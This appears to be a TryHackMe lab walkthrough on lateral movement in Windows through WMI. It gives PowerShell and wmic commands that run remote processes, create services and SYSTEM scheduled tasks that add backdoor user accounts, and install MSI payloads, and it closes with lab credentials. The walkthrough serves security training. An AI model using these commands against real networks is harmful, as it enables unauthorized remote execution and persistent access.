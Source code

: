 We can also perform many techniques discussed in the previous task differently by using Windows Management Instrumentation (WMI). WMI is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices.

In simpler terms, WMI allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement in various ways.

## Connecting to WMI From Powershell
Before being able to connect to WMI using Powershell commands, we need to create a *PSCredential* object with our user and password. This object will be stored in the `$credential` variable.

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

We then proceed to establish a WMI session using either of the following protocols:
- **DCOM:** RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 49152-65535/TCP, just as explained when using sc.exe.
- **Wsman:** WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).

To establish a WMI session from Powershell, we can use the following commands and store the session on the `$Session` variable, which we will use throughout the room on the different techniques:
```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName {TARGET} -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

The `New-CimSessionOption` cmdlet is used to configure the connection options for the WMI session, including the connection protocol. The options and credentials are then passed to the `New-CimSession` cmdlet to establish a session against a remote host.


## Remote Process Creation Using WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
- **Required Group Memberships:** Administrators

We can remotely spawn a process from Powershell by leveraging Windows Management Instrumentation (WMI), sending a WMI request to the Win32_Process class to spawn the process under the session we created before:
```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```

Note:
	 WMI won't allow you to see the output of any command but will indeed create the required process silently.

On legacy systems, the same can be done using wmic from the command prompt:
```shell-session
wmic.exe /user:Administrator /password:Mypass123 /node:{TARGET} process call create "cmd.exe /c calc.exe" 
```

## Remote Services Creation with WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

We can create services with WMI through Powershell. To create a service called THMService2, we can use the following command:
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

We can get a handle on the service and start it with the following commands:
```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

 We can stop and delete the service with the following commands:
 ```powershell
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

## Remote Scheduled Tasks Creation with WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

We can create and execute scheduled tasks by using some cmdlets available in Windows default installations:
```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add" # Your payload

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

To delete the scheduled task after it has been used, we can use the following command:
  ```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

## Installing MSI packages through WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

MSI is a file format used for installers. If we can copy an MSI package to the target system, we can then use WMI to attempt to install it for us. The file can be copied in any way available to the attacker. Once the MSI file is in the target system, we can attempt to install it by invoking the Win32_Product class through WMI:
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

We can achieve the same by us using wmic in legacy systems:
```shell-session
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```


## Example
To complete this exercise, you will need to connect to THMJMP2 using the credentials assigned to you. Once you have your credentials, connect to THMJMP2 via SSH:
`ssh za\\<AD Username>@thmjmp2.za.tryhackme.com`

For this exercise, we will assume we have already captured some credentials with administrative access:
- **User:** ZA.TRYHACKME.COM\t1_corine.waters
- **Password:** Korine.1994